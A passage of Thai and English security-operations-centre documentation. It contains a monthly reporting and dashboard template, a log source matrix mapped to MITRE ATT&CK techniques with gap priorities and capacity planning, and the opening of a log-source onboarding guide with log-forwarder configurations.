| PDPA breach notification < 72 ชม. | ___% | 100% | 🟢/🟡/🔴 |
| Audit findings ที่ยังเปิด | _____ | 0 | 🟢/🟡/🔴 |

---

## ส่วนที่ 8: สรุปเชิงบรรยายสำหรับผู้บริหาร

### จุดเด่นประจำเดือน
1. _____________________________________________________
2. _____________________________________________________

### เหตุการณ์สำคัญ
| วันที่ | สรุป | ระดับ | MTTR | สถานะ |
|:---|:---|:---:|:---:|:---:|
| _____ | _______________________________________ | P__ | ___ | ปิด/เปิด |

### ข้อกังวลและความเสี่ยง
1. _____________________________________________________

### คำขอทรัพยากร
| คำขอ | เหตุผล | ลำดับ | งบประมาณ |
|:---|:---|:---:|:---:|
| ______________ | _______________________________ | P_ | $_____ |

### แผนงานเดือนหน้า
1. _____________________________________________________
2. _____________________________________________________

---

## เทมเพลต Dashboard Layout

### Panel 1: สรุปภาพรวม (Executive Summary)

| ตัวชี้วัด | ค่า | เทรนด์ | เป้าหมาย |
|:---|:---:|:---:|:---:|
| Total Incidents (เดือนนี้) | [XX] | ↑/↓ | < [XX] |
| MTTD (เฉลี่ย) | [XX] นาที | ↑/↓ | ≤ 60 นาที |
| MTTR (เฉลี่ย) | [XX] นาที | ↑/↓ | ≤ 240 นาที |
| False Positive Rate | [XX]% | ↑/↓ | < 10% |
| SLA Compliance | [XX]% | ↑/↓ | ≥ 95% |

### Panel 2: ประสิทธิภาพ Detection

| หมวด | จำนวน Rules | Triggered/เดือน | FP Rate |
|:---|:---:|:---:|:---:|
| Network | [XX] | [XX] | [XX]% |
| Endpoint | [XX] | [XX] | [XX]% |
| Identity | [XX] | [XX] | [XX]% |
| Cloud | [XX] | [XX] | [XX]% |
| Email | [XX] | [XX] | [XX]% |

### Panel 3: MITRE ATT&CK Coverage Heat Map

| Tactic | ครอบคลุม | ช่องว่าง | ลำดับ |
|:---|:---:|:---:|:---:|
| Initial Access | [XX]% | [XX] techniques | 🔴/🟡/🟢 |
| Execution | [XX]% | [XX] techniques | 🔴/🟡/🟢 |
| Persistence | [XX]% | [XX] techniques | 🔴/🟡/🟢 |
| Privilege Escalation | [XX]% | [XX] techniques | 🔴/🟡/🟢 |
| Defense Evasion | [XX]% | [XX] techniques | 🔴/🟡/🟢 |
| Lateral Movement | [XX]% | [XX] techniques | 🔴/🟡/🟢 |
| Collection | [XX]% | [XX] techniques | 🔴/🟡/🟢 |
| Exfiltration | [XX]% | [XX] techniques | 🔴/🟡/🟢 |
| Impact | [XX]% | [XX] techniques | 🔴/🟡/🟢 |

### Panel 4: Team Performance

| นักวิเคราะห์ | Alerts Triaged | Avg Triage Time | Escalation Rate | Quality Score |
|:---|:---:|:---:|:---:|:---:|
| [Analyst 1] | [XX] | [XX] นาที | [XX]% | [X]/5 |
| [Analyst 2] | [XX] | [XX] นาที | [XX]% | [X]/5 |
| [Analyst 3] | [XX] | [XX] นาที | [XX]% | [X]/5 |

### Panel 5: Trend Analysis (รายเดือน)

| เดือน | Incidents | Alerts | FP Rate | MTTD | MTTR |
|:---|:---:|:---:|:---:|:---:|:---:|
| [M-3] | [XX] | [XX] | [XX]% | [XX]m | [XX]m |
| [M-2] | [XX] | [XX] | [XX]% | [XX]m | [XX]m |
| [M-1] | [XX] | [XX] | [XX]% | [XX]m | [XX]m |
| ปัจจุบัน | [XX] | [XX] | [XX]% | [XX]m | [XX]m |

## Dashboard Design Best Practices

### Color Coding Standards

| สี | ความหมาย | ใช้สำหรับ |
|:---|:---|:---|
| 🟢 เขียว | ปกติ / บรรลุเป้า | KPI ที่ผ่านเกณฑ์ |
| 🟡 เหลือง | เตือน / ใกล้เกณฑ์ | ต้องติดตาม |
| 🔴 แดง | วิกฤต / เกินเกณฑ์ | ต้องดำเนินการทันที |
| 🔵 น้ำเงิน | ข้อมูลอ้างอิง | Baseline / trend |

### Dashboard Layout Template

```
┌─────────────────────────────────────────────────────┐
│  SOC Executive Dashboard              [Date Range ▼]│
├──────────┬──────────┬──────────┬────────────────────┤
│ MTTR     │ MTTD     │ Alerts   │ Open Incidents     │
│ 12 min ↓ │ 8 min ↓  │ 1,247 ↑  │ 23 ↓              │
├──────────┴──────────┴──────────┴────────────────────┤
│  [Alert Trend Chart - 30 days]                      │
├─────────────────────┬───────────────────────────────┤
│  Top Alert Sources  │  Incident by Severity         │
│  1. Firewall  45%   │  Critical: 3                  │
│  2. EDR       30%   │  High: 8                      │
│  3. IDS       15%   │  Medium: 12                   │
│  4. Other     10%   │  Low: 45                      │
└─────────────────────┴───────────────────────────────┘
```

### Refresh Rate Guidelines

| ประเภท Dashboard | Refresh Rate | เหตุผล |
|:---|:---|:---|
| Real-time Operations | 30 วินาที | Alert monitoring |
| Daily Summary | 15 นาที | Shift awareness |
| Weekly Executive | 1 ชั่วโมง | Trend analysis |
| Monthly Report | Manual | Deep analysis |

### Dashboard Access Control

| Role | View | Edit | Admin |
|:---|:---|:---|:---|
| SOC Analyst | ✅ | ❌ | ❌ |
| SOC Lead | ✅ | ✅ | ❌ |
| SOC Manager | ✅ | ✅ | ✅ |
| CISO | ✅ | ❌ | ❌ |

### Data Source Integration

| Dashboard Panel | Data Source | Refresh |
|:---|:---|:---|
| Alert Volume | SIEM API | 30 sec |
| MTTR/MTTD | Ticketing API | 5 min |
| SLA Compliance | Ticketing + SLA DB | 15 min |
| Coverage Map | ATT&CK Navigator | Daily |

### Dashboard Maintenance Schedule

| Task | Frequency |
|:---|:---|
| Data source check | Daily |
| Widget review | Monthly |
| Full redesign | Annual |

## เอกสารที่เกี่ยวข้อง

-   [SOC Metrics & KPIs](SOC_Metrics.en.md) — นิยาม KPI และสูตรคำนวณ
-   [Log Source Matrix](Log_Source_Matrix.en.md) — ครอบคลุมแหล่งข้อมูล
-   [SOC Automation Catalog](SOC_Automation_Catalog.en.md) — Automation maturity
-   [Incident Classification](../05_Incident_Response/Incident_Classification.en.md) — อนุกรมวิธาน
-   [SLA Template](SLA_Template.en.md) — นิยาม SLA


---

## File: 06_Operations_Management/Log_Source_Matrix.en.md

# Log Source Matrix

**Document ID**: OPS-SOP-010
**Version**: 1.0
**Classification**: Internal
**Last Updated**: 2026-02-15

> The Log Source Matrix provides a **single-page view** of all data sources ingested (or required) by the SOC. Use it as a gap analysis tool to identify blind spots in your detection coverage.

---

## How to Use This Document

1. **Onboarding** → Verify all required log sources are connected
2. **Gap Analysis** → Identify missing sources (❌) and plan remediation
3. **Capacity Planning** → Estimate EPS and storage requirements
4. **Compliance** → Map log sources to regulatory requirements (PDPA, PCI-DSS, ISO 27001)
5. **Detection Tuning** → Correlate with MITRE ATT&CK coverage gaps

---

## Status Legend

| Symbol | Status | Action Required |
|:---:|:---|:---|
| ✅ | Collected & parsed | None — healthy |
| ⚠️ | Partial (collected but not parsed/normalized) | Needs parser development |
| ❌ | Not collected | Plan for integration |
| 🔜 | Planned / in progress | On roadmap |
| N/A | Not applicable to environment | Skip |

---

## 1. Endpoint & Host Logs

| # | Log Source | Type | Key Events | MITRE Coverage | EPS (est.) | Status |
|:---:|:---|:---|:---|:---|:---:|:---:|
| 1.1 | **Windows Security Event Log** | Host | 4624/4625 (Logon), 4688 (Process), 4698 (Scheduled Task), 7045 (Service) | T1078, T1053, T1543 | 500–5K | ✅ |
| 1.2 | **Windows Sysmon** | Host | Process create (1), Network (3), File create (11), Registry (13), DNS (22) | T1055, T1059, T1071 | 1K–10K | ✅ |
| 1.3 | **Windows PowerShell** | Host | 4103 (Module), 4104 (Script Block), 4105/4106 (Start/Stop) | T1059.001, T1027 | 100–1K | ✅ |
| 1.4 | **Linux Auditd / syslog** | Host | execve, file access, auth, sudo | T1548, T1059.004, T1070 | 200–2K | ✅ |
| 1.5 | **macOS Unified Log** | Host | Process exec, auth, network, file | T1059, T1078, T1547 | 100–500 | ⚠️ |
| 1.6 | **EDR Telemetry** (CrowdStrike / Defender / SentinelOne) | Endpoint | Process tree, file write, network, injection | Wide coverage (50+ TTPs) | 1K–20K | ✅ |
| 1.7 | **Antivirus / EPP** | Endpoint | Detection, quarantine, scan results | T1204, T1566 | 50–500 | ✅ |

---

## 2. Network Logs

| # | Log Source | Type | Key Events | MITRE Coverage | EPS (est.) | Status |
|:---:|:---|:---|:---|:---|:---:|:---:|
| 2.1 | **Firewall** (Palo Alto / Fortinet / pfSense) | Network | Allow/Deny, NAT, VPN tunnel, threat log | T1071, T1090, T1572 | 1K–50K | ✅ |
| 2.2 | **IDS/IPS** (Suricata / Snort) | Network | Signature alerts, protocol anomaly | T1190, T1071, T1040 | 100–5K | ✅ |
| 2.3 | **DNS Logs** (AD DNS / Pi-hole / Infoblox) | Network | Query/Response, NXDomain, TXT record | T1071.004, T1048.003, T1568 | 500–10K | ✅ |
| 2.4 | **Web Proxy / SWG** (Squid / Zscaler / Netskope) | Network | URL, user agent, response code, bytes | T1071.001, T1102, T1567 | 500–5K | ✅ |
| 2.5 | **NetFlow / IPFIX** | Network | IP pairs, ports, bytes, duration | T1046, T1571, T1572 | 1K–100K | ⚠️ |
| 2.6 | **DHCP Logs** | Network | Lease, MAC-to-IP binding | Asset identification | 10–100 | ⚠️ |
| 2.7 | **VPN Gateway** | Network | Connect/disconnect, user, source IP, duration | T1133, T1078 | 10–500 | ✅ |
| 2.8 | **Wireless Controller** | Network | Association, deauth, rogue AP | T1557, T1200 | 50–500 | ❌ |

---

## 3. Cloud & SaaS Logs

| # | Log Source | Type | Key Events | MITRE Coverage | EPS (est.) | Status |
|:---:|:---|:---|:---|:---|:---:|:---:|
| 3.1 | **AWS CloudTrail** | Cloud | API calls (all services), console sign-in | T1078.004, T1580, T1537 | 100–5K | ✅ |
| 3.2 | **AWS GuardDuty** | Cloud | Threat findings, anomaly detection | Multiple techniques | 1–50 | ✅ |
| 3.3 | **AWS VPC Flow Logs** | Cloud | Network flow within VPC | T1046, T1071 | 500–10K | ⚠️ |
| 3.4 | **Azure AD Sign-in Logs** | Cloud | Login events, MFA status, conditional access | T1078.004, T1556 | 100–2K | ✅ |
| 3.5 | **Azure Activity Log** | Cloud | Resource operations, RBAC changes | T1098, T1562 | 50–500 | ✅ |
| 3.6 | **GCP Cloud Audit Logs** | Cloud | Admin activity, data access | T1078.004, T1530 | 50–1K | ❌ |
| 3.7 | **Microsoft 365 UAL** | SaaS | Mail (Send/Receive/Forward), SharePoint, Teams | T1114, T1213, T1567 | 200–5K | ✅ |
| 3.8 | **Google Workspace** | SaaS | Drive, Gmail, Admin console | T1114, T1530 | 100–1K | ❌ |
| 3.9 | **Okta / Azure AD** (IdP) | Identity | Login, MFA challenge, app assignment | T1078, T1556, T1550 | 50–500 | ✅ |
| 3.10 | **SaaS Apps** (Salesforce, Slack, etc.) | SaaS | User activity, file share, admin changes | T1213, T1567 | 10–200 | 🔜 |

---

## 4. Identity & Access Logs

| # | Log Source | Type | Key Events | MITRE Coverage | EPS (est.) | Status |
|:---:|:---|:---|:---|:---|:---:|:---:|
| 4.1 | **Active Directory** (DC Security) | Identity | 4720 (Account Created), 4728/4732 (Group Add), 4768/4769 (Kerberos) | T1078, T1098, T1558 | 200–5K | ✅ |
| 4.2 | **LDAP Logs** | Identity | Bind, search, modify | T1087, T1018 | 50–500 | ⚠️ |
| 4.3 | **PAM / Vault** (CyberArk / HashiCorp) | Identity | Session recording, credential checkout, rotation | T1078.002, T1555 | 10–100 | 🔜 |
| 4.4 | **MFA Platform** | Identity | Challenge/Response, enrollment, bypass | T1556.006, T1621 | 10–200 | ✅ |
| 4.5 | **Certificate Authority** | Identity | Cert issuance, revocation, template changes | T1649, T1553 | 1–50 | ❌ |

---

## 5. Application & Database Logs

| # | Log Source | Type | Key Events | MITRE Coverage | EPS (est.) | Status |
|:---:|:---|:---|:---|:---|:---:|:---:|
| 5.1 | **Web Server** (Apache / Nginx / IIS) | Application | Access log, error log, WAF events | T1190, T1505, T1136 | 100–10K | ✅ |
| 5.2 | **WAF** (Cloudflare / AWS WAF / ModSecurity) | Application | Block, allow, challenge, bot score | T1190, T1595 | 100–5K | ✅ |
| 5.3 | **Database Audit** (MySQL / PostgreSQL / MSSQL) | Database | Login, query, schema change, bulk export | T1213, T1565, T1530 | 50–2K | ⚠️ |
| 5.4 | **Application Logs** (custom apps) | Application | Login, error, transaction, API call | T1078, T1190 | 50–5K | ⚠️ |
| 5.5 | **Container / K8s Audit** | Application | Pod create/delete, exec, RBAC change | T1610, T1611, T1613 | 100–2K | ❌ |

---

## 6. Email & Communication Logs

| # | Log Source | Type | Key Events | MITRE Coverage | EPS (est.) | Status |
|:---:|:---|:---|:---|:---|:---:|:---:|
| 6.1 | **Email Gateway** (Exchange Online / Proofpoint / Mimecast) | Email | Send/receive, attachment, phishing verdict | T1566, T1534 | 50–2K | ✅ |
| 6.2 | **Email DLP** | Email | Policy match, block, quarantine | T1048, T1567 | 10–200 | ✅ |
| 6.3 | **Anti-Spam / Anti-Phishing** | Email | Detection, URL sandbox, attachment detonate | T1566.001, T1566.002 | 10–500 | ✅ |

---

## 7. Security Tool Logs

| # | Log Source | Type | Key Events | MITRE Coverage | EPS (est.) | Status |
|:---:|:---|:---|:---|:---|:---:|:---:|
| 7.1 | **SIEM Internal** | Security | Health, ingestion rate, rule triggers | N/A (operational) | 10–100 | ✅ |
| 7.2 | **Vulnerability Scanner** (Qualys / Nessus / Rapid7) | Security | Scan results, new vuln, patch status | T1190, T1210 | 1–50 | ✅ |
| 7.3 | **DLP** (Endpoint / Network) | Security | Policy violation, block, alert | T1048, T1567 | 10–200 | ⚠️ |
| 7.4 | **CASB** (Netskope / Microsoft MCAS) | Security | Shadow IT, data exfil, anomalous usage | T1567, T1537, T1530 | 10–500 | 🔜 |
| 7.5 | **Threat Intelligence Platform** | Security | IOC match, feed update | Various | 1–50 | ✅ |

---

## Coverage Summary

```mermaid
pie title Log Source Status
    "Collected ✅" : 28
    "Partial ⚠️" : 9
    "Missing ❌" : 5
    "Planned 🔜" : 3
```

### Gap Remediation Priority

| Priority | Missing Source | Impact | Effort | Timeline |
|:---:|:---|:---|:---:|:---|
| 🔴 P1 | Container / K8s Audit | Blind to container-based attacks | Medium | Q1 |
| 🔴 P1 | Certificate Authority | Cannot detect Golden Certificate (T1649) | Low | Q1 |
| 🟡 P2 | GCP Cloud Audit | No visibility into GCP workloads | Medium | Q2 |
| 🟡 P2 | Google Workspace | Missing email/drive monitoring for Google users | Medium | Q2 |
| 🟢 P3 | Wireless Controller | Limited rogue AP detection | Low | Q3 |

---

## Capacity Planning

| Tier | Typical Total EPS | SIEM License Impact | Storage (90 days) |
|:---|:---:|:---|:---:|
| **Small SOC** (< 500 hosts) | 5K–15K | Standard tier | 500 GB – 1.5 TB |
| **Medium SOC** (500–5K hosts) | 15K–100K | Enterprise tier | 1.5 – 10 TB |
| **Large SOC** (5K+ hosts) | 100K–1M+ | Premium tier | 10 – 100+ TB |

### EPS Estimation Formula

```
Daily Events = EPS × 86,400
Storage (GB/day) = Daily Events × Avg Event Size (bytes) / 1,073,741,824
90-day Storage = Storage/day × 90
```

---

## MITRE ATT&CK Mapping

> This matrix shows which log sources contribute to detecting each ATT&CK tactic.

| Tactic | Primary Sources | Secondary Sources |
|:---|:---|:---|
| **Initial Access** | Email Gateway, WAF, Proxy | Firewall, VPN |
| **Execution** | EDR, Sysmon, PowerShell | App Logs |
| **Persistence** | Windows Events, EDR, Cloud Audit | AD, DNS |
| **Privilege Escalation** | Windows Events, EDR, AD | PAM, Sysmon |
| **Defense Evasion** | EDR, Sysmon, PowerShell | Firewall |
| **Credential Access** | AD, EDR, MFA Platform | PAM, Sysmon |
| **Discovery** | AD, EDR, DNS | NetFlow |
| **Lateral Movement** | Windows Events, EDR, Firewall | NetFlow, AD |
| **Collection** | DLP, EDR, DB Audit | Email, SaaS |
| **Command & Control** | DNS, Proxy, Firewall | IDS/IPS, NetFlow |
| **Exfiltration** | DLP, Proxy, DNS | Firewall, Email |
| **Impact** | EDR, App Logs, Cloud Audit | Backup Logs |

---

## Maintenance Schedule

| Task | Frequency | Owner |
|:---|:---:|:---|
| Review log source health | Daily | SOC Tier 1 |
| Validate EPS vs baseline | Weekly | SOC Engineering |
| Update matrix (new sources) | Monthly | SOC Lead |
| Full gap analysis review | Quarterly | SOC Manager + CISO |
| Compliance mapping audit | Annually | GRC / Compliance |

---

## Related Documents

-   [Threat Hunting Playbook](../05_Incident_Response/Threat_Hunting_Playbook.en.md)
-   [Detection Rule Testing SOP](../06_Operations_Management/Detection_Rule_Testing.en.md)
-   [TI Feeds Integration](../06_Operations_Management/TI_Feeds_Integration.en.md)
-   [SOC Metrics & KPIs](../06_Operations_Management/SOC_Metrics.en.md)
-   [Compliance Mapping](../07_Compliance_Privacy/Compliance_Mapping.en.md)
-   [Infrastructure Setup](../01_SOC_Fundamentals/Infrastructure_Setup.en.md)


---

## File: 06_Operations_Management/Log_Source_Matrix.th.md

# Log Source Matrix / ตารางแหล่งข้อมูล Log

**รหัสเอกสาร**: OPS-SOP-010
**เวอร์ชัน**: 1.0
**การจัดชั้นความลับ**: ใช้ภายใน
**อัปเดตล่าสุด**: 2026-02-15

> Log Source Matrix แสดง **ภาพรวมหน้าเดียว** ของ data sources ทั้งหมดที่ SOC รับเข้าหรือต้องการ ใช้เป็นเครื่องมือ gap analysis เพื่อค้นหาจุดบอดในการตรวจจับ

---

## วิธีใช้เอกสารนี้

1. **Onboarding** → ตรวจสอบว่าเชื่อมต่อ log sources ที่ต้องการครบแล้ว
2. **Gap Analysis** → ระบุแหล่งที่ยังขาด (❌) และวางแผนแก้ไข
3. **Capacity Planning** → ประมาณ EPS และความต้องการพื้นที่จัดเก็บ
4. **Compliance** → แมป log sources กับข้อกำหนด (PDPA, PCI-DSS, ISO 27001)
5. **Detection Tuning** → เชื่อมโยงกับ MITRE ATT&CK coverage gaps

---

## สัญลักษณ์สถานะ

| สัญลักษณ์ | สถานะ | สิ่งที่ต้องทำ |
|:---:|:---|:---|
| ✅ | เก็บและ parse แล้ว | ไม่ต้องทำอะไร |
| ⚠️ | บางส่วน (เก็บแต่ยังไม่ parse/normalize) | ต้องพัฒนา parser |
| ❌ | ยังไม่ได้เก็บ | วางแผน integration |
| 🔜 | วางแผนไว้ / กำลังดำเนินการ | อยู่ใน roadmap |
| N/A | ไม่เกี่ยวข้องกับสภาพแวดล้อม | ข้าม |

---

## 1. Endpoint & Host Logs

| # | Log Source | ประเภท | Event สำคัญ | MITRE Coverage | EPS (ประมาณ) | สถานะ |
|:---:|:---|:---|:---|:---|:---:|:---:|
| 1.1 | **Windows Security Event Log** | Host | 4624/4625 (Logon), 4688 (Process), 4698 (Scheduled Task) | T1078, T1053, T1543 | 500–5K | ✅ |
| 1.2 | **Windows Sysmon** | Host | Process create (1), Network (3), File (11), Registry (13) | T1055, T1059, T1071 | 1K–10K | ✅ |
| 1.3 | **Windows PowerShell** | Host | 4103 (Module), 4104 (Script Block) | T1059.001, T1027 | 100–1K | ✅ |
| 1.4 | **Linux Auditd / syslog** | Host | execve, file access, auth, sudo | T1548, T1059.004 | 200–2K | ✅ |
| 1.5 | **macOS Unified Log** | Host | Process exec, auth, network | T1059, T1078 | 100–500 | ⚠️ |
| 1.6 | **EDR Telemetry** | Endpoint | Process tree, file write, network, injection | 50+ TTPs | 1K–20K | ✅ |
| 1.7 | **Antivirus / EPP** | Endpoint | Detection, quarantine, scan results | T1204, T1566 | 50–500 | ✅ |

---

## 2. Network Logs

| # | Log Source | ประเภท | Event สำคัญ | MITRE Coverage | EPS (ประมาณ) | สถานะ |
|:---:|:---|:---|:---|:---|:---:|:---:|
| 2.1 | **Firewall** | Network | Allow/Deny, NAT, VPN, threat log | T1071, T1090, T1572 | 1K–50K | ✅ |
| 2.2 | **IDS/IPS** (Suricata / Snort) | Network | Signature alerts, protocol anomaly | T1190, T1071 | 100–5K | ✅ |
| 2.3 | **DNS Logs** | Network | Query/Response, NXDomain, TXT | T1071.004, T1048.003 | 500–10K | ✅ |
| 2.4 | **Web Proxy / SWG** | Network | URL, user agent, response code | T1071.001, T1102 | 500–5K | ✅ |
| 2.5 | **NetFlow / IPFIX** | Network | IP pairs, ports, bytes, duration | T1046, T1571 | 1K–100K | ⚠️ |
| 2.6 | **DHCP Logs** | Network | Lease, MAC-to-IP binding | ระบุ asset | 10–100 | ⚠️ |
| 2.7 | **VPN Gateway** | Network | Connect/disconnect, user, source IP | T1133, T1078 | 10–500 | ✅ |
| 2.8 | **Wireless Controller** | Network | Association, deauth, rogue AP | T1557, T1200 | 50–500 | ❌ |

---

## 3. Cloud & SaaS Logs

| # | Log Source | ประเภท | Event สำคัญ | MITRE Coverage | EPS (ประมาณ) | สถานะ |
|:---:|:---|:---|:---|:---|:---:|:---:|
| 3.1 | **AWS CloudTrail** | Cloud | API calls, console sign-in | T1078.004, T1580 | 100–5K | ✅ |
| 3.2 | **AWS GuardDuty** | Cloud | Threat findings, anomaly | หลาย techniques | 1–50 | ✅ |
| 3.3 | **AWS VPC Flow Logs** | Cloud | Network flow within VPC | T1046, T1071 | 500–10K | ⚠️ |
| 3.4 | **Azure AD Sign-in Logs** | Cloud | Login, MFA, conditional access | T1078.004, T1556 | 100–2K | ✅ |
| 3.5 | **Azure Activity Log** | Cloud | Resource ops, RBAC changes | T1098, T1562 | 50–500 | ✅ |
| 3.6 | **GCP Cloud Audit** | Cloud | Admin activity, data access | T1078.004, T1530 | 50–1K | ❌ |
| 3.7 | **Microsoft 365 UAL** | SaaS | Mail, SharePoint, Teams | T1114, T1213 | 200–5K | ✅ |
| 3.8 | **Google Workspace** | SaaS | Drive, Gmail, Admin | T1114, T1530 | 100–1K | ❌ |
| 3.9 | **Okta / Azure AD** (IdP) | Identity | Login, MFA, app assignment | T1078, T1556 | 50–500 | ✅ |
| 3.10 | **SaaS Apps** | SaaS | User activity, file share | T1213, T1567 | 10–200 | 🔜 |

---

## 4. Identity & Access Logs

| # | Log Source | ประเภท | Event สำคัญ | MITRE Coverage | EPS (ประมาณ) | สถานะ |
|:---:|:---|:---|:---|:---|:---:|:---:|
| 4.1 | **Active Directory** | Identity | 4720 (สร้าง Account), 4728/4732 (เพิ่ม Group), Kerberos | T1078, T1098, T1558 | 200–5K | ✅ |
| 4.2 | **LDAP Logs** | Identity | Bind, search, modify | T1087, T1018 | 50–500 | ⚠️ |
| 4.3 | **PAM / Vault** | Identity | Session, credential checkout | T1078.002, T1555 | 10–100 | 🔜 |
| 4.4 | **MFA Platform** | Identity | Challenge/Response, enrollment | T1556.006, T1621 | 10–200 | ✅ |
| 4.5 | **Certificate Authority** | Identity | Cert issuance, revocation | T1649, T1553 | 1–50 | ❌ |

---

## 5. Application & Database Logs

| # | Log Source | ประเภท | Event สำคัญ | MITRE Coverage | EPS (ประมาณ) | สถานะ |
|:---:|:---|:---|:---|:---|:---:|:---:|
| 5.1 | **Web Server** | Application | Access log, error log, WAF | T1190, T1505 | 100–10K | ✅ |
| 5.2 | **WAF** | Application | Block, allow, bot score | T1190, T1595 | 100–5K | ✅ |
| 5.3 | **Database Audit** | Database | Login, query, schema change | T1213, T1565 | 50–2K | ⚠️ |
| 5.4 | **Application Logs** | Application | Login, error, API call | T1078, T1190 | 50–5K | ⚠️ |
| 5.5 | **Container / K8s Audit** | Application | Pod, exec, RBAC change | T1610, T1611 | 100–2K | ❌ |

---

## 6. Email & Communication Logs

| # | Log Source | ประเภท | Event สำคัญ | MITRE Coverage | EPS (ประมาณ) | สถานะ |
|:---:|:---|:---|:---|:---|:---:|:---:|
| 6.1 | **Email Gateway** | Email | Send/receive, phishing verdict | T1566, T1534 | 50–2K | ✅ |
| 6.2 | **Email DLP** | Email | Policy match, block | T1048, T1567 | 10–200 | ✅ |
| 6.3 | **Anti-Spam / Anti-Phishing** | Email | Detection, URL sandbox | T1566.001, T1566.002 | 10–500 | ✅ |

---

## 7. Security Tool Logs

| # | Log Source | ประเภท | Event สำคัญ | MITRE Coverage | EPS (ประมาณ) | สถานะ |
|:---:|:---|:---|:---|:---|:---:|:---:|
| 7.1 | **SIEM Internal** | Security | Health, ingestion rate | N/A (operational) | 10–100 | ✅ |
| 7.2 | **Vulnerability Scanner** | Security | Scan results, new vuln | T1190, T1210 | 1–50 | ✅ |
| 7.3 | **DLP** | Security | Policy violation, block | T1048, T1567 | 10–200 | ⚠️ |
| 7.4 | **CASB** | Security | Shadow IT, data exfil | T1567, T1537 | 10–500 | 🔜 |
| 7.5 | **Threat Intelligence Platform** | Security | IOC match, feed update | หลากหลาย | 1–50 | ✅ |

---

## สรุป Coverage

```mermaid
pie title สถานะ Log Source
    "เก็บแล้ว ✅" : 28
    "บางส่วน ⚠️" : 9
    "ยังไม่เก็บ ❌" : 5
    "วางแผนไว้ 🔜" : 3
```

### ลำดับความสำคัญในการปิด Gap

| ลำดับ | แหล่งที่ขาด | ผลกระทบ | ความยาก | กำหนด |
|:---:|:---|:---|:---:|:---|
| 🔴 P1 | Container / K8s Audit | มองไม่เห็น container-based attacks | ปานกลาง | Q1 |
| 🔴 P1 | Certificate Authority | ตรวจจับ Golden Certificate (T1649) ไม่ได้ | ต่ำ | Q1 |
| 🟡 P2 | GCP Cloud Audit | ไม่มี visibility ใน GCP workloads | ปานกลาง | Q2 |
| 🟡 P2 | Google Workspace | ขาด email/drive monitoring สำหรับ Google | ปานกลาง | Q2 |
| 🟢 P3 | Wireless Controller | ตรวจจับ rogue AP ได้จำกัด | ต่ำ | Q3 |

---

## การวางแผน Capacity

| ระดับ | EPS รวม (ประมาณ) | SIEM License | Storage (90 วัน) |
|:---|:---:|:---|:---:|
| **SOC เล็ก** (< 500 hosts) | 5K–15K | Standard tier | 500 GB – 1.5 TB |
| **SOC กลาง** (500–5K hosts) | 15K–100K | Enterprise tier | 1.5 – 10 TB |
| **SOC ใหญ่** (5K+ hosts) | 100K–1M+ | Premium tier | 10 – 100+ TB |

### สูตรคำนวณ EPS

```
Events ต่อวัน = EPS × 86,400
Storage (GB/วัน) = Events ต่อวัน × ขนาดเฉลี่ยต่อ event (bytes) / 1,073,741,824
Storage 90 วัน = Storage/วัน × 90
```

---

## ตารางบำรุงรักษา

| งาน | ความถี่ | ผู้รับผิดชอบ |
|:---|:---:|:---|
| ตรวจสอบสุขภาพ log source | ทุกวัน | SOC Tier 1 |
| ตรวจสอบ EPS เทียบ baseline | ทุกสัปดาห์ | SOC Engineering |
| อัปเดตตาราง (sources ใหม่) | ทุกเดือน | SOC Lead |
| ทบทวน gap analysis ทั้งหมด | ทุกไตรมาส | SOC Manager + CISO |
| ตรวจสอบการแมปกับ compliance | ทุกปี | GRC / Compliance |

---

### Log Source Priority Categories

| Priority | Category | Examples | SLA |
|:---|:---|:---|:---|
| P1 - Critical | Security devices | Firewall, IDS, EDR | 5 min |
| P2 - High | Identity systems | AD, IAM, VPN | 15 min |
| P3 - Medium | Infrastructure | DNS, DHCP, Proxy | 1 hr |
| P4 - Low | Application | Web apps, custom | 4 hrs |

### Log Format Compatibility

| Log Source | Format | Parser | Complexity |
|:---|:---|:---|:---|
| Firewall | Syslog/CEF | Built-in | Low |
| Windows | EVTX/WEF | Built-in | Medium |
| Cloud | JSON/API | Custom | Medium |
| Application | Custom | Custom | High |

## เอกสารที่เกี่ยวข้อง

-   [Threat Hunting Playbook](../05_Incident_Response/Threat_Hunting_Playbook.en.md)
-   [Detection Rule Testing SOP](Detection_Rule_Testing.en.md)
-   [TI Feeds Integration](TI_Feeds_Integration.en.md)
-   [SOC Metrics & KPIs](SOC_Metrics.en.md)
-   [Compliance Mapping](../07_Compliance_Privacy/Compliance_Mapping.en.md)
-   [Infrastructure Setup](../01_SOC_Fundamentals/Infrastructure_Setup.en.md)


---

## File: 06_Operations_Management/Log_Source_Onboarding.en.md

# Log Source Onboarding Guide

> **Document ID:** LOG-001  
> **Version:** 1.0  
> **Last Updated:** 2026-02-15  
> **Owner:** SOC Engineering / Detection Engineering

---

## Purpose

Step-by-step guide for onboarding new log sources into the SIEM. Proper onboarding ensures detection coverage, normalization, and alert quality.

---

## Onboarding Workflow

```mermaid
graph LR
    A[Request] --> B[Assessment]
    B --> C[Configure Source]
    C --> D[Parse & Normalize]
    D --> E[Validate]
    E --> F[Build Detections]
    F --> G[Document & Close]
```

---

## Phase 1: Assessment Checklist

Before onboarding any new log source:

| Item | Details |
|:---|:---|
| **Log Source Name** | [System/application name] |
| **Log Type** | Auth / Network / Endpoint / Cloud / Application |
| **Volume Estimate** | [Events per second / per day] |
| **Format** | Syslog (RFC 3164/5424) / JSON / CEF / CSV / Windows Event |
| **Transport** | Syslog TCP/UDP / Filebeat / API / S3 / Kafka |
| **Retention** | [Days to retain in hot/warm/cold storage] |
| **Compliance** | Required by ISO/PCI/PDPA? |
| **Playbooks** | Which playbooks will this data support? |
| **Owner** | [Team responsible for the source system] |

---

## Phase 2: Configure by Source Type

### Windows Event Logs
```yaml
# Winlogbeat config
winlogbeat.event_logs:
  - name: Security
    event_id: 4624, 4625, 4648, 4672, 4688, 4720, 4726, 4732, 4756, 1102
  - name: System
    event_id: 7045, 7040
  - name: Microsoft-Windows-Sysmon/Operational
  - name: Microsoft-Windows-PowerShell/Operational
    event_id: 4103, 4104

output.elasticsearch:
  hosts: ["siem.company.local:9200"]
  index: "winlogbeat-%{+yyyy.MM.dd}"
```

### Linux Syslog
```yaml
# Filebeat config
filebeat.inputs:
  - type: log
    paths:
      - /var/log/auth.log
      - /var/log/syslog
      - /var/log/secure
    fields:
      log_type: linux_syslog
    multiline:
      pattern: '^\w{3}\s+\d{1,2}'
      negate: true
      match: after

  - type: log
    paths:
      - /var/log/audit/audit.log
    fields:
      log_type: linux_audit
```

### Firewall (Palo Alto / Fortinet)
```
# Syslog config — send to SIEM
# Palo Alto: Device > Server Profiles > Syslog
Server IP:    [SIEM_IP]
